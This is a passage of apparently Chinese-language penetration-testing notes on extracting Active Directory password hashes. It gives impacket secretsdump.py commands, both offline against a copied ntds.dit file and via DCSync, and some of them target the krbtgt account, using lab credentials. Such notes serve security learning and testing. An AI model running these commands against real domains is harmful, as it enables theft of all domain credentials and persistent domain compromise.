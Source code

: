 ```
secretsdump.py -ntds "Desktop\temp\Active Directory\ntds.dit" -system Desktop\temp\registry\SYSTEM local
```

![image-20201122180046820](/assets/img/image-20201122180046820.png)





## 利用DCSync获取

详细原理见： [渗透测试-DCsync原理及利用.md](渗透测试-DCsync原理及利用.md) 

**impacket**

```
secretsdump.py -just-dc-user krbtgt ring2/win10:Test1234@ringdc-pc
```

![image-20201122175115415](/assets/img/image-20201122175115415.png)

```
secretsdump.py -just-dc ring2/win10:Test1234@192.168.240.142
```
